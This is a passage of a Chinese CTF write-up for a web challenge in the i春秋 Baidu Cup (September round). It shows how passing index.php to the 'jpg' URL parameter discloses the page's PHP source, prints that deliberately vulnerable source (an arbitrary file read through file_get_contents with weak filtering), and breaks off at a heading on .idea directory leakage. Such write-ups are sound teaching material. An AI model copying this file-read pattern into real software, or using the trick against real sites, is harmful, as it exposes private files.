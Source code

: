 ```yaml
---
title: WP for i春秋_百度杯CTF比赛（九月第一场）
categories: [CTF]
tags: [CTF, Writeup, WEB, i春秋]
---
```


## CODE

### base64文件包含

打开页面后，看到一张图片`hei.jpg`，且链接为如下形式：

	http://528c1f8ff4fe439482ce4069e858e805ad9172679385471a.ctf.game/index.php?jpg=hei.jpg

可以看到参数jpg后面跟着一个文件名，查看网页源代码发现，此图片是采用BASE64编码形式显示的。

所以可以采取如下方式

	http://...index.php?jpg=index.php

查看网页php源码（还要经过一步base64解密）。如下：

``` php
<?php
/**
 * Created by PhpStorm.
 * Date: 2015/11/16
 * Time: 1:31
 */
header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=hei.jpg');
$file = $_GET['jpg'];
echo '<title>file:'.$file.'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","_", $file);
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";

/*
 * Can you find the flag file?
 *
 */

?>
```

### .idea目录结构泄露

可以看到对jpg的参数进行了一些处理，除了大小写字母、数字和小数点，都会被删除，并且`config`会被转换成下划线_。
